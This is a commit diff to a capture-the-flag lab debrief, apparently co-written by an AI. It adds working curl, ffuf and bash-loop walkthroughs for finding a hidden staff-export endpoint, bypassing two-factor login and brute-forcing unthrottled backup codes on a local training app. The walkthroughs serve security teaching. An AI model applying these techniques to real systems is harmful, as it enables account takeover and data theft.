

Before and after one commit to kilani47/r6s-auth-lab, a Markdown page: masquerade/op7/DEBRIEF.md, 2 parts joined by grey strips. Shown at 84% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Op07 DEBRIEF: add concrete step-by-step solve walkthroughs
Each finding now has explicit numbered steps with working commands, not just
the "why". Finding 2 especially: the three real ways to DISCOVER the unlinked
endpoint (robots.txt, reading the page's client JS, ffuf) with exact commands,
then how to exploit it. Finding 3: where the recovery path is and how to brute
it. Fixed the JSON grep patterns to match Flask's compact output ("ok":true,
no space) so the copy-paste loops actually fire.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/masquerade/op7/DEBRIEF.md
+++ b/masquerade/op7/DEBRIEF.md
@@ -98,19 +129,56 @@ them.
 ### First you have to *find* it — that's half the finding
 
 This is forced browsing, and forced browsing only means anything when the door is actually
-hidden. The app never links `/masquerade/op7/staff/export` anywhere in its UI — you discover it
-by recon, the same way you would on a real engagement:
+hidden. The app never links `/masquerade/op7/staff/export` anywhere in its UI. Here are the three
+ways to discover it — any one is enough.
 
-- **`/robots.txt`** disallows `/masquerade/op7/staff/` — the classic case of a site's own
-  "please don't crawl this" file handing an attacker the exact paths worth looking at.
-- **The portal's client JS** (`/static/js/op7-portal.js`, loaded on the two-step page) names the
-  endpoint outright in its config, with a leftover dev comment admitting it "isn't behind the
-  second-factor check yet."
-- **Content discovery** (`ffuf`/`gobuster` with a common wordlist) would turn up `staff` and
-  `export` on their own.
+**Way A — read `/robots.txt` (fastest).** The very first thing to check on any target. The site's
+own file lists the paths it doesn't want crawled, which is exactly where to look:
 
-If the app had simply shown you a button, none of that skill would be exercised — which is why it
+```bash
+$ curl -s http://localhost:8000/robots.txt
+User-agent: *
+Disallow: /masquerade/op7/staff/     ←  something lives under /staff/
+Disallow: /masquerade/op7/api/
+```
+
+That points you at `/masquerade/op7/staff/`. The resource under it is `staff/export`.
+
+**Way B — read the JavaScript the page loads.** The two-step page pulls in
+`/static/js/op7-portal.js`. Open DevTools ▸ Sources (or just `curl` it) and read it — client code
+routinely names endpoints the UI never links:
+
+```bash
+$ curl -s http://localhost:8000/static/js/op7-portal.js | grep -i staff
+    staffExport: "/masquerade/op7/staff/export"   // internal — pre-2FA, staff console only
+```
+
+The leftover dev comment even admits it predates the 2FA rollout and "isn't behind the
+second-factor check yet" — a gift, but only to someone who bothered to read the JS.
+
+**Way C — content discovery.** With no robots.txt or JS to read, you'd brute the path with a
+wordlist. Both segments are common dictionary words:
+
+```bash
+ffuf -u http://localhost:8000/masquerade/op7/FUZZ -w /usr/share/wordlists/dirb/common.txt -b "session=…"
+# … then fuzz one level deeper under /staff/ for 'export'
+```
+
+If the app had simply shown you a button, none of this skill would be exercised — which is why it
 doesn't.
+
+### How to exploit it once found
+
+Log in (first factor only — **do not** enter any code), then request the endpoint with that
+half-authenticated cookie:
+
+```bash
+curl -s -c cookies.txt -X POST http://localhost:8000/masquerade/op7/login \
+     -d "username=night.duty&password=KafeNight2024!" -o /dev/null
+curl -s -b cookies.txt http://localhost:8000/masquerade/op7/staff/export | grep -o 'R6S{[^}]*}'
+```
+
+The roster (and the flag) come back with no second factor ever presented.
 
 ### The bug — and why it's the most important one here
 
@@ -148,14 +216,34 @@ treat "passed step 1" as "authenticated."
 ### The bug
 
 "Lost your phone? Use a backup code." Backup codes here are `KAFE-0000`…`KAFE-9999` — a tiny,
-**unthrottled** space, and any valid one skips the OTP entirely:
+**unthrottled** space, and any valid one skips the OTP entirely.
+
+### How to solve it, step by step
+
+**1. Find the recovery path.** Unlike Stage 2, this one is *meant* to be visible — it's a real
+feature. On the two-step prompt there's a **"Lost your device?"** link; it goes to
+`/masquerade/op7/backup`. (Finding the entry point is trivial; the vulnerability is what's behind
+it.)
+
+**2. Read what it asks for.** The recovery page shows the format up front —
+`KAFE-0000` — so you already know the shape of the space: a fixed prefix plus 4 digits, i.e.
+10,000 candidates. Real apps show the format too; that alone isn't the bug.
+
+**3. Confirm it's not throttled.** Submit a couple of wrong backup codes — same plain "isn't
+valid" each time, no lock-out. Same weakness as Stage 1, different door.
+
+**4. Find where it posts and brute it.** The form posts to `/masquerade/op7/backup`; there's also
+a JSON endpoint `/masquerade/op7/api/backup` that's cleaner to loop. Several of the 10,000 codes
+are valid (real accounts get a batch), so you land one quickly:
 
 ```bash
 for i in $(seq -w 0 9999); do
   curl -s -X POST http://localhost:8000/masquerade/op7/api/backup \
-       -b cookies.txt -d "backup=KAFE-$i" | grep -q '"ok": true' && { echo "KAFE-$i"; break; }
+       -b cookies.txt -d "backup=KAFE-$i" | grep -q '"ok":true' && { echo "KAFE-$i"; break; }
 done
 ```
+
+Any valid code promotes your session to fully verified — the OTP is never involved.
 
 ### Why this is a *separate* lesson from Stage 1
 
````
Also changed, not shown: other parts of masquerade/op7/DEBRIEF.md (+33 -2 lines).
